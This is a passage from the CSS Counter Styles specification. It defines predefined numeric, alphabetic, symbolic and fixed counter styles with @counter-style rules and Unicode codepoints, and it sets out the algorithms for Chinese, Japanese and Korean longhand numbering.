  }

  @counter-style myanmar {
    system: numeric;
    symbols: "\1040" "\1041" "\1042" "\1043" "\1044" "\1045" "\1046" "\1047" "\1048" "\1049";
    /* ၀ ၁ ၂ ၃ ၄ ၅ ၆ ၇ ၈ ၉ */
  }

  @counter-style oriya {
    system: numeric;
    symbols: "\B66" "\B67" "\B68" "\B69" "\B6A" "\B6B" "\B6C" "\B6D" "\B6E" "\B6F";
    /* ୦ ୧ ୨ ୩ ୪ ୫ ୬ ୭ ୮ ୯ */
  }

  @counter-style persian {
    system: numeric;
    symbols: "\6F0" "\6F1" "\6F2" "\6F3" "\6F4" "\6F5" "\6F6" "\6F7" "\6F8" "\6F9";
    /* ۰ ۱ ۲ ۳ ۴ ۵ ۶ ۷ ۸ ۹ */
  }

  @counter-style lower-roman {
    system: additive;
    range: 1 3999;
    additive-symbols: 1000 m, 900 cm, 500 d, 400 cd, 100 c, 90 xc, 50 l, 40 xl, 10 x, 9 ix, 5 v, 4 iv, 1 i;
  }

  @counter-style upper-roman {
    system: additive;
    range: 1 3999;
    additive-symbols: 1000 M, 900 CM, 500 D, 400 CD, 100 C, 90 XC, 50 L, 40 XL, 10 X, 9 IX, 5 V, 4 IV, 1 I;
  }

  @counter-style tamil {
    system: numeric;
    symbols: "\BE6" "\BE7" "\BE8" "\BE9" "\BEA" "\BEB" "\BEC" "\BED" "\BEE" "\BEF";
    /* ௦ ௧ ௨ ௩ ௪ ௫ ௬ ௭ ௮ ௯ */
  }

  @counter-style telugu {
    system: numeric;
    symbols: "\C66" "\C67" "\C68" "\C69" "\C6A" "\C6B" "\C6C" "\C6D" "\C6E" "\C6F";
    /* ౦ ౧ ౨ ౩ ౪ ౫ ౬ ౭ ౮ ౯ */
  }

  @counter-style thai {
    system: numeric;
    symbols: "\E50" "\E51" "\E52" "\E53" "\E54" "\E55" "\E56" "\E57" "\E58" "\E59";
    /* ๐ ๑ ๒ ๓ ๔ ๕ ๖ ๗ ๘ ๙ */
  }

  @counter-style tibetan {
    system: numeric;
    symbols: "\F20" "\F21" "\F22" "\F23" "\F24" "\F25" "\F26" "\F27" "\F28" "\F29";
    /* ༠ ༡ ༢ ༣ ༤ ༥ ༦ ༧ ༨ ༩ */
  }
  
```

Implementations must implement `hebrew` at least to the range specified in the `@counter-style` rule above, but may implement it to a higher range. If they do so, the corresponding `range` descriptor must reflect the implemented range.

#### 6.2.  Alphabetic: `lower-alpha`, `lower-latin`, `upper-alpha`, `upper-latin`, `lower-greek`, `hiragana`, `hiragana-iroha`, `katakana`, `katakana-iroha` {#css-counter-styles-3:simple-alphabetic}

****lower-alpha** **lower-latin****

: Lowercase ASCII letters (e.g., a, b, c, ..., z, aa, ab).

****upper-alpha** **upper-latin****

: Uppercase ASCII letters (e.g., A, B, C, ..., Z, AA, AB).

****lower-greek****

: Lowercase classical Greek (e.g., α, β, γ, ..., ω, αα, αβ).

****hiragana****

: Dictionary-order hiragana lettering (e.g., あ, い, う, ..., ん, ああ, あい).

****hiragana-iroha****

: Iroha-order hiragana lettering (e.g., い, ろ, は, ..., す, いい, いろ).

****katakana****

: Dictionary-order katakana lettering (e.g., ア, イ, ウ, ..., ン, アア, アイ).

****katakana-iroha****

: Iroha-order katakana lettering (e.g., イ, ロ, ハ, ..., ス, イイ, イロ)

The following stylesheet fragment provides the normative definition of these predefined counter styles:

```
  @counter-style lower-alpha {
    system: alphabetic;
    symbols: a b c d e f g h i j k l m n o p q r s t u v w x y z;
  }

  @counter-style lower-latin {
    system: extends lower-alpha;
  }

  @counter-style upper-alpha {
    system: alphabetic;
    symbols: A B C D E F G H I J K L M N O P Q R S T U V W X Y Z;
  }

  @counter-style upper-latin {
    system: extends upper-alpha;
  }

  @counter-style lower-greek {
    system: alphabetic;
    symbols: "\3B1" "\3B2" "\3B3" "\3B4" "\3B5" "\3B6" "\3B7" "\3B8" "\3B9" "\3BA" "\3BB" "\3BC" "\3BD" "\3BE" "\3BF" "\3C0" "\3C1" "\3C3" "\3C4" "\3C5" "\3C6" "\3C7" "\3C8" "\3C9";
    /* α β γ δ ε ζ η θ ι κ λ μ ν ξ ο π ρ σ τ υ φ χ ψ ω */
  }

  @counter-style hiragana {
    system: alphabetic;
    symbols: "\3042" "\3044" "\3046" "\3048" "\304A" "\304B" "\304D" "\304F" "\3051" "\3053" "\3055" "\3057" "\3059" "\305B" "\305D" "\305F" "\3061" "\3064" "\3066" "\3068" "\306A" "\306B" "\306C" "\306D" "\306E" "\306F" "\3072" "\3075" "\3078" "\307B" "\307E" "\307F" "\3080" "\3081" "\3082" "\3084" "\3086" "\3088" "\3089" "\308A" "\308B" "\308C" "\308D" "\308F" "\3090" "\3091" "\3092" "\3093";
    /* あ い う え お か き く け こ さ し す せ そ た ち つ て と な に ぬ ね の は ひ ふ へ ほ ま み む め も や ゆ よ ら り る れ ろ わ ゐ ゑ を ん */
    suffix: "、";
  }

  @counter-style hiragana-iroha {
    system: alphabetic;
    symbols: "\3044" "\308D" "\306F" "\306B" "\307B" "\3078" "\3068" "\3061" "\308A" "\306C" "\308B" "\3092" "\308F" "\304B" "\3088" "\305F" "\308C" "\305D" "\3064" "\306D" "\306A" "\3089" "\3080" "\3046" "\3090" "\306E" "\304A" "\304F" "\3084" "\307E" "\3051" "\3075" "\3053" "\3048" "\3066" "\3042" "\3055" "\304D" "\3086" "\3081" "\307F" "\3057" "\3091" "\3072" "\3082" "\305B" "\3059";
    /* い ろ は に ほ へ と ち り ぬ る を わ か よ た れ そ つ ね な ら む う ゐ の お く や ま け ふ こ え て あ さ き ゆ め み し ゑ ひ も せ す */
    suffix: "、";
  }

  @counter-style katakana {
    system: alphabetic;
    symbols: "\30A2" "\30A4" "\30A6" "\30A8" "\30AA" "\30AB" "\30AD" "\30AF" "\30B1" "\30B3" "\30B5" "\30B7" "\30B9" "\30BB" "\30BD" "\30BF" "\30C1" "\30C4" "\30C6" "\30C8" "\30CA" "\30CB" "\30CC" "\30CD" "\30CE" "\30CF" "\30D2" "\30D5" "\30D8" "\30DB" "\30DE" "\30DF" "\30E0" "\30E1" "\30E2" "\30E4" "\30E6" "\30E8" "\30E9" "\30EA" "\30EB" "\30EC" "\30ED" "\30EF" "\30F0" "\30F1" "\30F2" "\30F3";
    /* ア イ ウ エ オ カ キ ク ケ コ サ シ ス セ ソ タ チ ツ テ ト ナ ニ ヌ ネ ノ ハ ヒ フ ヘ ホ マ ミ ム メ モ ヤ ユ ヨ ラ リ ル レ ロ ワ ヰ ヱ ヲ ン */
    suffix: "、";
  }

  @counter-style katakana-iroha {
    system: alphabetic;
    symbols: "\30A4" "\30ED" "\30CF" "\30CB" "\30DB" "\30D8" "\30C8" "\30C1" "\30EA" "\30CC" "\30EB" "\30F2" "\30EF" "\30AB" "\30E8" "\30BF" "\30EC" "\30BD" "\30C4" "\30CD" "\30CA" "\30E9" "\30E0" "\30A6" "\30F0" "\30CE" "\30AA" "\30AF" "\30E4" "\30DE" "\30B1" "\30D5" "\30B3" "\30A8" "\30C6" "\30A2" "\30B5" "\30AD" "\30E6" "\30E1" "\30DF" "\30B7" "\30F1" "\30D2" "\30E2" "\30BB" "\30B9";
    /* イ ロ ハ ニ ホ ヘ ト チ リ ヌ ル ヲ ワ カ ヨ タ レ ソ ツ ネ ナ ラ ム ウ ヰ ノ オ ク ヤ マ ケ フ コ エ テ ア サ キ ユ メ ミ シ ヱ ヒ モ セ ス */
    suffix: "、";
  }
  
```

#### 6.3.  Symbolic: `disc`, `circle`, `square`, `disclosure-open`, `disclosure-closed` {#css-counter-styles-3:simple-symbolic}

The **predefined symbolic counter styles** each represent a single symbol, and are defined as follows:

****disc****

: A filled circle, similar to • U+2022 BULLET.

****circle****

: A hollow circle, similar to ◦ U+25E6 WHITE BULLET.

****square****

: A filled square, similar to ▪ U+25AA BLACK SMALL SQUARE.

****disclosure-open** **disclosure-closed****

: Symbols appropriate for indicating an open or closed disclosure widget, such as the HTML `details` element.

They can be referred to syntactically using the `<symbolic-glyph>` production:

```css
<symbolic-glyph> = disc | circle | square | disclosure-open | disclosure-closed
```

The following stylesheet fragment provides the normative definition of these predefined counter styles:

```
@counter-style disc {
  system: cyclic;
  symbols: \2022;
  /* • */
  suffix: " ";
}

@counter-style circle {
  system: cyclic;
  symbols: \25E6;
  /* ◦ */
  suffix: " ";
}

@counter-style square {
  system: cyclic;
  symbols: \25AA;
  /* ▪ */
  suffix: " ";
}

@counter-style disclosure-open {
  system: cyclic;
  suffix: " ";
  /* for symbols, see normative text below */
}

@counter-style disclosure-closed {
  system: cyclic;
  suffix: " ";
  /* for symbols, see normative text below */
}
```

For the `disclosure-open` and `disclosure-closed` counter styles, the marker must be an image or character suitable for indicating the open and closed states of a disclosure widget, such as HTML’s `details` element. If the image is directional, it must respond to the writing mode of the element, similar to the [bidi-sensitive images](https://drafts.csswg.org/css4-images/#bidi-images) feature of the Images 4 module. For example, in a horizontal writing mode the `disclosure-closed` style might use the characters U+25B8 BLACK RIGHT-POINTING SMALL TRIANGLE (▸) for `ltr` elements and U+25C2 BLACK LEFT-POINTING SMALL TRIANGLE (◂) for `rtl` elements, while the `disclosure-open` style might use the character U+25BE BLACK DOWN-POINTING SMALL TRIANGLE (▾).

A UA may render the `<symbolic-glyph>` styles using a UA-generated image or a UA-chosen font instead of rendering the specified character in the element’s own font. It must look similar to the character, and must be sized to attractively fill a 1em by 1em square. A UA that does so may also fall back to its string definition when rendering these values in a `<counter>` value.

#### 6.4.  Fixed: `cjk-earthly-branch`, `cjk-heavenly-stem` {#css-counter-styles-3:simple-fixed}

****cjk-earthly-branch****

: Han "Earthly Branch" ordinals (e.g., 子, 丑, 寅, ..., 亥).

****cjk-heavenly-stem****

: Han "Heavenly Stem" ordinals (e.g., 甲, 乙, 丙, ..., 癸)

The following stylesheet fragment provides the normative definition of these predefined counter styles:

```
  @counter-style cjk-earthly-branch {
    system: fixed;
    symbols: "\5B50" "\4E11" "\5BC5" "\536F" "\8FB0" "\5DF3" "\5348" "\672A" "\7533" "\9149" "\620C" "\4EA5";
    /* 子 丑 寅 卯 辰 巳 午 未 申 酉 戌 亥 */
    suffix: "、";
    fallback: cjk-decimal;
  }

  @counter-style cjk-heavenly-stem {
    system: fixed;
    symbols: "\7532" "\4E59" "\4E19" "\4E01" "\620A" "\5DF1" "\5E9A" "\8F9B" "\58EC" "\7678";
    /* 甲 乙 丙 丁 戊 己 庚 辛 壬 癸 */
    suffix: "、";
    fallback: cjk-decimal;
  }
  
```

### 7.  Complex Predefined Counter Styles {#css-counter-styles-3:complex-predefined-counters}

While authors may define their own counter styles using the `@counter-style` rule or rely on the set of predefined counter styles, a few counter styles are described by rules that are too complex to be captured by the predefined algorithms. These counter styles are described in this section.

Some of the counter styles specified in this section have custom algorithms for generating counter values, but are otherwise identical to a counter style defined via the `@counter-style` rule. For example, an author can reference one of these styles in an `extends` system, reusing the algorithm but swapping out some of the other descriptors.

All of the counter styles defined in this section have a `spoken form` of `numbers`, and use a negative sign.

#### 7.1.  Longhand East Asian Counter Styles {#css-counter-styles-3:complex-cjk}

Chinese, Japanese, and Korean have counter styles which have a “longhand” nature, similar to “thirteen thousand one hundred and twenty-three” in English. Each has both formal and informal variants. The formal styles are typically used in financial and legal documents, as their characters are more difficult to alter into each other.

> **Example:** The following table shows examples of these styles, particularly some ways in which they differ.
>
> | Counter Style | 0 | 1 | 2 | 3 | 10 | 11 | 99 | 100 | 101 | 6001 |
> | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
> | `japanese` | 〇 | 一 | 二 | 三 | 十 | 十一 | 九十九 | 百 | 百一 | 六千一 |
> | `japanese-formal` | 零 | 壱 | 弐 | 参 | 壱拾 | 壱拾壱 | 九拾九 | 壱百 | 壱百壱 | 六阡壱 |
> | `korean-hangul` | 영 | 일 | 이 | 삼 | 일십 | 일십일 | 구십구 | 일백 | 일백일 | 육천일 |
> | `korean-hanja` | 零 | 一 | 二 | 三 | 十 | 十一 | 九十九 | 百 | 百一 | 六千一 |
> | `korean-hanja-formal` | 零 | 壹 | 貳 | 參 | 壹拾 | 壹拾壹 | 九拾九 | 壹百 | 壹百壹 | 六仟壹 |
> | `simp-chinese` | 零 | 一 | 二 | 三 | 十 | 十一 | 九十九 | 一百 | 一百零一 | 六千零一 |
> | `simp-chinese-formal` | 零 | 壹 | 贰 | 叁 | 壹拾 | 壹拾壹 | 玖拾玖 | 壹佰 | 壹佰零壹 | 陆仟零壹 |
> | `trad-chinese` | 零 | 一 | 二 | 三 | 十 | 十一 | 九十九 | 一百 | 一百零一 | 六千零一 |
> | `trad-chinese-formal` | 零 | 壹 | 貳 | 參 | 壹拾 | 壹拾壹 | 玖拾玖 | 壹佰 | 壹佰零壹 | 陸仟零壹 |

Because opinions differ on how best to represent numbers 10,000 or greater using the longhand CJK styles, the implementation details are split into two sections. The Korean and Japanese variants of these counter styles can, if limited to the range of -9999 to 9999, be expressed as `@counter-style` rules. The Chinese variants use a [specialized algorithm](#css-counter-styles-3:limited-chinese), regardless of range. The required implementation is described in [§ 7.1.1 Limited-range Implementation (required)](#css-counter-styles-3:limited-range-required), which defines the styles over these limited ranges, and the optional implementation is described in [§ 7.1.2 Extended Implementation (optional)](#css-counter-styles-3:extended-range-optional), which defines them over a larger range using custom algorithms. Outside the implementation-supported range, the fallback is `cjk-decimal`.

The following legacy value aliases are also defined:

- **japanese-informal** is an alias for `japanese`
- **korean-hangul-formal** is an alias for `korean-hangul`
- **korean-hanja-informal** is an alias for `korean-hanja`
- **simp-chinese-informal** is an alias for `simp-chinese`
- **trad-chinese-informal** is an alias for `trad-chinese`
- **cjk-ideographic** is an alias for `trad-chinese`

##### 7.1.1. Limited-range Implementation (required) {#css-counter-styles-3:limited-range-required}

###### 7.1.1.1.  Japanese: `japanese` and `japanese-formal` {#css-counter-styles-3:limited-japanese}

****japanese****

: Informal Japanese Kanji numbering (e.g., 千百十一)

****japanese-formal****

: Formal Japanese Kanji numbering (e.g. 壱阡壱百壱拾壱)

```
@counter-style japanese {
  system: additive;
  range: -9999 9999;
  additive-symbols: 9000 \4E5D\5343, 8000 \516B\5343, 7000 \4E03\5343, 6000 \516D\5343, 5000 \4E94\5343, 4000 \56DB\5343, 3000 \4E09\5343, 2000 \4E8C\5343, 1000 \5343, 900 \4E5D\767E, 800 \516B\767E, 700 \4E03\767E, 600 \516D\767E, 500 \4E94\767E, 400 \56DB\767E, 300 \4E09\767E, 200 \4E8C\767E, 100 \767E, 90 \4E5D\5341, 80 \516B\5341, 70 \4E03\5341, 60 \516D\5341, 50 \4E94\5341, 40 \56DB\5341, 30 \4E09\5341, 20 \4E8C\5341, 10 \5341, 9 \4E5D, 8 \516B, 7 \4E03, 6 \516D, 5 \4E94, 4 \56DB, 3 \4E09, 2 \4E8C, 1 \4E00, 0 \3007;
  /* 9000 九千, 8000 八千, 7000 七千, 6000 六千, 5000 五千, 4000 四千, 3000 三千, 2000 二千, 1000 千, 900 九百, 800 八百, 700 七百, 600 六百, 500 五百, 400 四百, 300 三百, 200 二百, 100 百, 90 九十, 80 八十, 70 七十, 60 六十, 50 五十, 40 四十, 30 三十, 20 二十, 10 十, 9 九, 8 八, 7 七, 6 六, 5 五, 4 四, 3 三, 2 二, 1 一, 0 〇 */
  suffix: '\3001';
  /* 、 */
  negative: "\30DE\30A4\30CA\30B9";
  /* マイナス */
  fallback: cjk-decimal;
}

@counter-style japanese-formal {
  system: additive;
  range: -9999 9999;
  additive-symbols: 9000 \4E5D\9621, 8000 \516B\9621, 7000 \4E03\9621, 6000 \516D\9621, 5000 \4F0D\9621, 4000 \56DB\9621, 3000 \53C2\9621, 2000 \5F10\9621, 1000 \58F1\9621, 900 \4E5D\767E, 800 \516B\767E, 700 \4E03\767E, 600 \516D\767E, 500 \4F0D\767E, 400 \56DB\767E, 300 \53C2\767E, 200 \5F10\767E, 100 \58F1\767E, 90 \4E5D\62FE, 80 \516B\62FE, 70 \4E03\62FE, 60 \516D\62FE, 50 \4F0D\62FE, 40 \56DB\62FE, 30 \53C2\62FE, 20 \5F10\62FE, 10 \58F1\62FE, 9 \4E5D, 8 \516B, 7 \4E03, 6 \516D, 5 \4F0D, 4 \56DB, 3 \53C2, 2 \5F10, 1 \58F1, 0 \96F6;
  /* 9000 九阡, 8000 八阡, 7000 七阡, 6000 六阡, 5000 伍阡, 4000 四阡, 3000 参阡, 2000 弐阡, 1000 壱阡, 900 九百, 800 八百, 700 七百, 600 六百, 500 伍百, 400 四百, 300 参百, 200 弐百, 100 壱百, 90 九拾, 80 八拾, 70 七拾, 60 六拾, 50 伍拾, 40 四拾, 30 参拾, 20 弐拾, 10 壱拾, 9 九, 8 八, 7 七, 6 六, 5 伍, 4 四, 3 参, 2 弐, 1 壱, 0 零 */
  suffix: '\3001';
  /* 、 */
  negative: "\30DE\30A4\30CA\30B9";
  /* マイナス */
  fallback: cjk-decimal;
}
```

###### 7.1.1.2.  Korean: `korean-hangul`, `korean-hanja`, and `korean-hanja-formal` {#css-counter-styles-3:limited-korean}

****korean-hangul****

: Korean Hangul numbering (e.g., 일천일백일십일)

****korean-hanja****

: Informal Korean Hanja numbering (e.g., 千百十一)

****korean-hanja-formal****

: Formal Korean Han (Hanja) numbering (e.g., 壹仟壹百壹拾壹)

```
@counter-style korean-hangul {
  system: additive;
  range: -9999 9999;
  additive-symbols: 9000 \AD6C\CC9C, 8000 \D314\CC9C, 7000 \CE60\CC9C, 6000 \C721\CC9C, 5000 \C624\CC9C, 4000 \C0AC\CC9C, 3000 \C0BC\CC9C, 2000 \C774\CC9C, 1000 \C77C\CC9C, 900 \AD6C\BC31, 800 \D314\BC31, 700 \CE60\BC31, 600 \C721\BC31, 500 \C624\BC31, 400 \C0AC\BC31, 300 \C0BC\BC31, 200 \C774\BC31, 100 \C77C\BC31, 90 \AD6C\C2ED, 80 \D314\C2ED, 70 \CE60\C2ED, 60 \C721\C2ED, 50 \C624\C2ED, 40 \C0AC\C2ED, 30 \C0BC\C2ED, 20 \C774\C2ED, 10 \C77C\C2ED, 9 \AD6C, 8 \D314, 7 \CE60, 6 \C721, 5 \C624, 4 \C0AC, 3 \C0BC, 2 \C774, 1 \C77C, 0 \C601;
  /* 9000 구천, 8000 팔천, 7000 칠천, 6000 육천, 5000 오천, 4000 사천, 3000 삼천, 2000 이천, 1000 일천, 900 구백, 800 팔백, 700 칠백, 600 육백, 500 오백, 400 사백, 300 삼백, 200 이백, 100 일백, 90 구십, 80 팔십, 70 칠십, 60 육십, 50 오십, 40 사십, 30 삼십, 20 이십, 10 일십, 9 구, 8 팔, 7 칠, 6 육, 5 오, 4 사, 3 삼, 2 이, 1 일, 0 영 */
  suffix: ', ';
  negative: "\B9C8\C774\B108\C2A4  ";
  /* 마이너스 (followed by a space) */
  fallback: cjk-decimal;
}

@counter-style korean-hanja {
  system: additive;
  range: -9999 9999;
  additive-symbols: 9000 \4E5D\5343, 8000 \516B\5343, 7000 \4E03\5343, 6000 \516D\5343, 5000 \4E94\5343, 4000 \56DB\5343, 3000 \4E09\5343, 2000 \4E8C\5343, 1000 \5343, 900 \4E5D\767E, 800 \516B\767E, 700 \4E03\767E, 600 \516D\767E, 500 \4E94\767E, 400 \56DB\767E, 300 \4E09\767E, 200 \4E8C\767E, 100 \767E, 90 \4E5D\5341, 80 \516B\5341, 70 \4E03\5341, 60 \516D\5341, 50 \4E94\5341, 40 \56DB\5341, 30 \4E09\5341, 20 \4E8C\5341, 10 \5341, 9 \4E5D, 8 \516B, 7 \4E03, 6 \516D, 5 \4E94, 4 \56DB, 3 \4E09, 2 \4E8C, 1 \4E00, 0 \96F6;
  /* 9000 九千, 8000 八千, 7000 七千, 6000 六千, 5000 五千, 4000 四千, 3000 三千, 2000 二千, 1000 千, 900 九百, 800 八百, 700 七百, 600 六百, 500 五百, 400 四百, 300 三百, 200 二百, 100 百, 90 九十, 80 八十, 70 七十, 60 六十, 50 五十, 40 四十, 30 三十, 20 二十, 10 十, 9 九, 8 八, 7 七, 6 六, 5 五, 4 四, 3 三, 2 二, 1 一, 0 零 */
  suffix: ', ';
  negative: "\B9C8\C774\B108\C2A4  ";
  /* 마이너스 (followed by a space) */
  fallback: cjk-decimal;
}

@counter-style korean-hanja-formal {
  system: additive;
  range: -9999 9999;
  additive-symbols: 9000 \4E5D\4EDF, 8000 \516B\4EDF, 7000 \4E03\4EDF, 6000 \516D\4EDF, 5000 \4E94\4EDF, 4000 \56DB\4EDF, 3000 \53C3\4EDF, 2000 \8CB3\4EDF, 1000 \58F9\4EDF, 900 \4E5D\767E, 800 \516B\767E, 700 \4E03\767E, 600 \516D\767E, 500 \4E94\767E, 400 \56DB\767E, 300 \53C3\767E, 200 \8CB3\767E, 100 \58F9\767E, 90 \4E5D\62FE, 80 \516B\62FE, 70 \4E03\62FE, 60 \516D\62FE, 50 \4E94\62FE, 40 \56DB\62FE, 30 \53C3\62FE, 20 \8CB3\62FE, 10 \58F9\62FE, 9 \4E5D, 8 \516B, 7 \4E03, 6 \516D, 5 \4E94, 4 \56DB, 3 \53C3, 2 \8CB3, 1 \58F9, 0 \96F6;
  /* 9000 九仟, 8000 八仟, 7000 七仟, 6000 六仟, 5000 五仟, 4000 四仟, 3000 參仟, 2000 貳仟, 1000 壹仟, 900 九百, 800 八百, 700 七百, 600 六百, 500 五百, 400 四百, 300 參百, 200 貳百, 100 壹百, 90 九拾, 80 八拾, 70 七拾, 60 六拾, 50 五拾, 40 四拾, 30 參拾, 20 貳拾, 10 壹拾, 9 九, 8 八, 7 七, 6 六, 5 五, 4 四, 3 參, 2 貳, 1 壹, 0 零 */
  suffix: ', ';
  negative: "\B9C8\C774\B108\C2A4  ";
  /* 마이너스 (followed by a space) */
  fallback: cjk-decimal;
}
```

###### 7.1.1.3.  Chinese: `simp-chinese`, `simp-chinese-formal`, `trad-chinese`, and `trad-chinese-formal` {#css-counter-styles-3:limited-chinese}

****simp-chinese****

: Simplified Chinese informal numbering (e.g., 一千一百一十一)

****simp-chinese-formal****

: Simplified Chinese formal numbering (e.g. 壹仟壹佰壹拾壹)

****trad-chinese****

: Traditional Chinese informal numbering (e.g., 一千一百一十一)

****trad-chinese-formal****

: Traditional Chinese formal numbering (e.g., 壹仟壹佰壹拾壹)

The Chinese longhand styles are defined by almost identical algorithms (specified as a single algorithm here, with the differences called out when relevant), but use different sets of characters, as specified by the table following the algorithm.

1. If the counter value is 0, the representation is the character for 0 specified for the given counter style. Skip the rest of this algorithm.
2. If the counter value is negative, instead use the absolute value of the counter value for the remaining steps of this algorithm.
3. Initially represent the counter value as a decimal number. For each digit that is not 0, append the appropriate digit marker to the digit. The ones digit has no marker.
4. For the informal styles, if the counter value is between ten and nineteen, remove the tens digit (leave the digit marker).
5. Drop any trailing zeros and collapse any remaining zeros into a single zero digit.
6. Replace the digits 0-9 with the appropriate character for the given counter style.
7. If the counter value was negative, prepend the appropriate negative sign character for the given counter style as specified in the table of characters for each style.
8. Return the resultant string as the representation of the counter value.

For all of these counter styles, the `suffix` is "、" U+3001, the `fallback` is `cjk-decimal`, the `range` is `-9999 9999`, and the `negative` value is given in the table of symbols for each style.

The following tables define the characters used in these styles:

| Values | Codepoints |  |  |  |
| --- | --- | --- | --- | --- |
| simp-chinese | simp-chinese-formal | trad-chinese | trad-chinese-formal |  |
| Digit 0 | 零 U+96F6 | 零 U+96F6 | 零 U+96F6 | 零 U+96F6 |
| Digit 1 | 一 U+4E00 | 壹 U+58F9 | 一 U+4E00 | 壹 U+58F9 |
| Digit 2 | 二 U+4E8C | 贰 U+8D30 | 二 U+4E8C | 貳 U+8CB3 |
| Digit 3 | 三 U+4E09 | 叁 U+53C1 | 三 U+4E09 | 參 U+53C3 |
| Digit 4 | 四 U+56DB | 肆 U+8086 | 四 U+56DB | 肆 U+8086 |
| Digit 5 | 五 U+4E94 | 伍 U+4F0D | 五 U+4E94 | 伍 U+4F0D |
| Digit 6 | 六 U+516D | 陆 U+9646 | 六 U+516D | 陸 U+9678 |
| Digit 7 | 七 U+4E03 | 柒 U+67D2 | 七 U+4E03 | 柒 U+67D2 |
| Digit 8 | 八 U+516B | 捌 U+634C | 八 U+516B | 捌 U+634C |
| Digit 9 | 九 U+4E5D | 玖 U+7396 | 九 U+4E5D | 玖 U+7396 |
| Tens Digit Marker | 十 U+5341 | 拾 U+62FE | 十 U+5341 | 拾 U+62FE |
| Hundreds Digit Marker | 百 U+767E | 佰 U+4F70 | 百 U+767E | 佰 U+4F70 |
| Thousands Digit Marker | 千 U+5343 | 仟 U+4EDF | 千 U+5343 | 仟 U+4EDF |
| Negative Sign | 负 U+8D1F | 负 U+8D1F | 負 U+8CA0 | 負 U+8CA0 |

> **Note:** For reference, here are the first 120 values for the `simp-chinese` style:
>
> ```
>  1　　　　 一    41　　 四十一    81　　 八十一
>  2　　　　 二    42　　 四十二    82　　 八十二
>  3　　　　 三    43　　 四十三    83　　 八十三
>  4　　　　 四    44　　 四十四    84　　 八十四
>  5　　　　 五    45　　 四十五    85　　 八十五
>  6　　　　 六    46　　 四十六    86　　 八十六
>  7　　　　 七    47　　 四十七    87　　 八十七
>  8　　　　 八    48　　 四十八    88　　 八十八
>  9　　　　 九    49　　 四十九    89　　 八十九
> 10　　　　 十    50　　　 五十    90　　　 九十
> 11　　　 十一    51　　 五十一    91　　 九十一
> 12　　　 十二    52　　 五十二    92　　 九十二
> 13　　　 十三    53　　 五十三    93　　 九十三
> 14　　　 十四    54　　 五十四    94　　 九十四
> 15　　　 十五    55　　 五十五    95　　 九十五
> 16　　　 十六    56　　 五十六    96　　 九十六
> 17　　　 十七    57　　 五十七    97　　 九十七
> 18　　　 十八    58　　 五十八    98　　 九十八
> 19　　　 十九    59　　 五十九    99　　 九十九
> 20　　　 二十    60　　　 六十   100　　　 一百
> 21　　 二十一    61　　 六十一   101　 一百零一
> 22　　 二十二    62　　 六十二   102　 一百零二
> 23　　 二十三    63　　 六十三   103　 一百零三
> 24　　 二十四    64　　 六十四   104　 一百零四
> 25　　 二十五    65　　 六十五   105　 一百零五
> 26　　 二十六    66　　 六十六   106　 一百零六
> 27　　 二十七    67　　 六十七   107　 一百零七
> 28　　 二十八    68　　 六十八   108　 一百零八
> 29　　 二十九    69　　 六十九   109　 一百零九
> 30　　　 三十    70　　　 七十   110　 一百一十
> 31　　 三十一    71　　 七十一   111 一百一十一
> 32　　 三十二    72　　 七十二   112 一百一十二
> 33　　 三十三    73　　 七十三   113 一百一十三
> 34　　 三十四    74　　 七十四   114 一百一十四
> 35　　 三十五    75　　 七十五   115 一百一十五
> 36　　 三十六    76　　 七十六   116 一百一十六
> 37　　 三十七    77　　 七十七   117 一百一十七
> 38　　 三十八    78　　 七十八   118 一百一十八
> 39　　 三十九    79　　 七十九   119 一百一十九
> 40　　　 四十    80　　　 八十   120　 一百二十
> ```

##### 7.1.2. Extended Implementation (optional) {#css-counter-styles-3:extended-range-optional}

Some counter styles described in earlier chapters have been limited to an artifically small (though still useful) range to reduce the overall complexity of the spec and the task of implementing those styles. However, some implementations might consider the extra complexity worthwhile for the additional range it offers to authors. To accomodate this, this section describes how to extend the limited counter-styles to a larger range.

This entire section is normative, but **optional**. User-agents may ignore it and still be conformant. If a user-agent implements some of the extended forms described in this section, they must be implemented as described here.

All of the Chinese, Japanese, and Korean styles are defined here for all numbers between -1016 and 1016, exclusive. For numbers outside this range, the `cjk-decimal` style is used. All of the styles are defined by almost identical algorithms (specified as a single algorithm here, with the differences called out when relevant), but use different sets of characters. The list following the algorithm gives the name of each counter style using this algorithm, and the individual character sets used by each style.

1. If the counter value is 0, the representation is the character for 0 specified for the given counter style. Skip the rest of this algorithm.
2. If the counter value is negative, instead use the absolute value of the counter value for the remaining steps of this algorithm.
3. Initially represent the counter value as a decimal number. Starting from the right (ones place), split the decimal number into groups of four digits.
4. For each group with a non-zero value, append the appropriate group marker to the group. The ones group has no marker.
5. Within each group, for each digit that is not 0, append the appropriate digit marker to the digit. The ones digit of each group has no marker.
6. Drop ones:

  - For the Chinese informal styles, for any group with a value between ten and nineteen, remove the tens digit (leave the digit marker).
  - For the Japanese informal and Korean informal styles, if any of the digit markers are preceded by the digit 1, and that digit is not the first digit of the group, remove the digit (leave the digit marker).
  - For Korean informal styles, if the value of the ten-thousands group is 1, drop the digit (leave the digit marker).
7. Drop zeros:

  - For the Japanese and Korean styles, drop all zero digits.
  - For the Chinese styles, drop any trailing zeros for all non-zero groups and collapse (across groups) each remaining consecutive group of zeros into a single zero digit.
8. For the Korean styles, insert a space (" " U+0020) between each group.
9. Replace the digits 0-9 with the appropriate character for the given counter style.
10. If the counter value was negative, prepend the appropriate negative sign character for the given counter style as specified in the table of characters for each style.
11. Return the resultant string as the representation of the counter value.

For all of these counter styles, the descriptors are the same as for the [limited range variants](#css-counter-styles-3:limited-range-required), except for the `range`, which is `calc(-1 * pow(10, 16) + 1) calc(pow(10, 16) - 1)`.

The following tables define the characters used in these styles:

| Values | Codepoints |  |  |  |
| --- | --- | --- | --- | --- |
| simp-chinese | simp-chinese-formal | trad-chinese | trad-chinese-formal |  |
| Digit 0 | 零 U+96F6 | 零 U+96F6 | 零 U+96F6 | 零 U+96F6 |
| Digit 1 | 一 U+4E00 | 壹 U+58F9 | 一 U+4E00 | 壹 U+58F9 |
| Digit 2 | 二 U+4E8C | 贰 U+8D30 | 二 U+4E8C | 貳 U+8CB3 |
| Digit 3 | 三 U+4E09 | 叁 U+53C1 | 三 U+4E09 | 參 U+53C3 |
| Digit 4 | 四 U+56DB | 肆 U+8086 | 四 U+56DB | 肆 U+8086 |
| Digit 5 | 五 U+4E94 | 伍 U+4F0D | 五 U+4E94 | 伍 U+4F0D |
